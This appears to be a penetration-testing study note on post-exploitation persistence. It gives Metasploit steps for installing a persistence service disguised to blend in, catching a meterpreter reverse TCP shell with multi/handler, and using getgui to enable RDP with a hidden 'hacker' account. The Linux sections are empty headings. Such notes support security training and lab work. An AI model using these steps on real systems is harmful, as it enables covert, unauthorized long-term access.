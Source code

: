 
Persistence is techniques to keep access when access is cut off
Gaining initial foothold is not enough, you need to setup and maintain persistent access to your target. 


#### Windows Persistence

##### Persistence via Services 

- identify vulnerable system you can exploit on target system 

After getting initial foothold and a meterpreter session search for **persistence_service** 

in msfconsole: 
- ``use persistence service`` (you need admin credentials for this module)
- change ``lport`` 
- in real life scenario change the service name to make sure that it blends in. 
- ``kill`` the sessions (no more sessions on target)

how to regain access with persistence? 
- restart msfconsole 
- use ``multi/handler ``
- set payload windows/meterpreter/reverse_tcp 
- set ``lhost`` and ``lport`` 
- exploit 

every time you run the handler the session is created. 



##### Persistence via RDP 

badblue_ext_overflow 
- identify vulnerable system on target 
- migrate to stable process in meterpreter 

Gain persistence: 
1. ``run getgui -e -u hacker -p hacked_123321 ``
	- getgui will check if RDP is enabled if not it will enable it and, add a user and hide it from login screen 
	- this command also provides a resource script to clean up

utilize rdp client to connect to new account created: 
- ``xfreerdp /u:hacker /p:hacked123321 /v:target_ip ``

login on screen with new credentials and open cmd (run as administrator): ``whoami /priv ``
``net user ``




#### Linux Persistence

##### Persistence via SSH keys




















##### persistence via Cron Jobs 

